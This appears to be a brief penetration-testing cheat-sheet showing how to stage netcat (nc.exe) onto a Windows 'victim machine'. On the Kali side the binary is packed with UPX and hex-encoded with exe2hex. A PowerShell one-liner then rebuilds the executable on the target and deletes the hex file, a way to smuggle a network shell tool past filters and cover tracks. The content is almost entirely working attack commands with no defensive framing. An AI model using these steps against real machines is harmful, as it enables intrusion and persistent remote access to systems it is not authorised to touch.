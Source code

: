 ## On Kali
```bash
# Find the binary
locate nc.exe | grep binaries
cp /usr/share/windows-resources/binaries/nc.exe .
ls -lh nc.exe

# Compress the binary using UPX
upx -9 nc.exe
ls -lh nc.exe

# Convert the binary to hex using exe2hex
exe2hex -x nc.exe -p nc.cmd
```

## On the victim machine (Windows)
### Get back the binary file
```powershell
powershell -Command "$h=Get-Content -readcount 0 -path
'./nc.hex';$l=$h[0].length;$b=New-Object byte[] ($l/2);$x=0;for ($i=0;$i -le $l-
1;$i+=2){$b[$x]=[byte]::Parse($h[0].Substring($i,2),[System.Globalization.NumberStyles
]::HexNumber);$x+=1};set-content -encoding byte 'nc.exe' -value $b;Remove-Item -force
nc.hex;"
```
